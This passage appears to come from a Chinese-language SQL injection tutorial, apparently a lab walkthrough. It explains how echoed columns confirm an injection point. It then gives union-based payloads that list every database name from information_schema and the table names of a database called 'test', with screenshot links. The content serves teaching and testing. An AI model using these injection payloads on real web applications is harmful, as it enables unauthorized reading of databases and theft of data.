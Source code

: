 这里回显出1，2，3代表1，2，3列都可以显示数据，即sql注入语句写在1/2/3位都可以

3）读库信息（将url中1替换为database（））

![image-20191125222015531](./sqli/22.png)

也可以用下列语句将所有库名读出来

```
?id=-2 union select group_concat(' ',schema_name),2,3 from information_schema.schemata
```

![image-20191125222947857](./sqli/23.png)

5）读表信息（以下语句将数据库test的所有表名读出来）

```
id=-2 union select group_concat(' ',table_name),2,3 from information_schema.tables where table_schema='test'
```

![image-20191125223302477](./sqli/24.png)
